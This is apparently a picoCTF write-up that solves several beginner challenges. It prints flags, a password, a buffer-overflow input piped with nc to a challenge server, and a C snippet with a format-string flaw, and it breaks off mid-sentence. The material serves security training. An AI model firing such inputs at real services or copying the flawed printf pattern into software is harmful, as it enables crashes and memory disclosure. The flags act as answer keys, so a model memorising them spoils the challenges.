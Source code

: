 ## Ancient History
![Image](img/ancient-history.png)

When you go to the webpage, a script appends these to your browser's history. I
copied the entries, then removed everything except the last letter using vim
macro. Then joined the lines and reversed the string.

`picoCTF{hsk1n34t_b60d5}`

## Python Wrangling
Just run the scipt
```
 $ python ende.py -d flag.txt.en
Please enter the password:aa821c16aa821c16aa821c16aa821c16
picoCTF{4p0110_1n_7h3_h0us3_aa821c16}
```

## Binary Gauntlet 0 
Quickly looking through the disassembly, we can see that we can overflow a
buffer on the stack, which would cause a segfault, and the handler would print
the flag for us.

```
 $ python -c "print(); print('A' * 500)" | nc mercury.picoctf.net 12294
fbd01d62c0e369e6de3d63b4b21d3830
```

## Wave a flag
```
 $ ./warm -h
Oh, help? I actually don't do much, but I do have this flag here: picoCTF{b1scu1ts_4nd_gr4vy_755f3544}
```

## information
```
 $ exiftool cat.jpg
...
License                         : cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9
Rights                          : PicoCTF
...

 $ base64 -d
cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9
picoCTF{the_m3tadata_1s_modified}
```

## Stonks
The source code is quite long, but it won't distract us from this:
```c
int buy_stonks (Portfolio *p) {
    ... 
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);
    ...
}
```
This is a format string vulnerability. Let's play around with it.
`%s` returns itself, but we can't just spam a lot of formats because it seems